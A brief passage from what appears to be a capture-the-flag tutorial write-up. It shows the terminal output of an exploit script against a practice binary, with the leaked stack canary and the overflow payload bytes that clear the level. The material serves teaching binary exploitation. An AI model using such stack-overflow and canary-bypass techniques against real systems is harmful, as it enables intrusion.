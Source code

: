 Now let's test it.

```
$ python exploit.py 
[+] Starting local process './d0_64': pid 30936
[*] '/Hackery/escape/def_ovr/d0_64/d0_64'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
The Canary Is: 0xb59d452d1dbd5500
Sending: 000000000000000000000000\x00U\xbd\x1d-E\x9d\xb500000000\xa6\x06@\x00\x00\x00\x00\x00
My best engineers assured me that this code was impenetrable. You have shed some light into this matter. Level Cleared!

[*] Stopped process './d0_64' (pid 30936)
```

Just like that, we pwned the binary!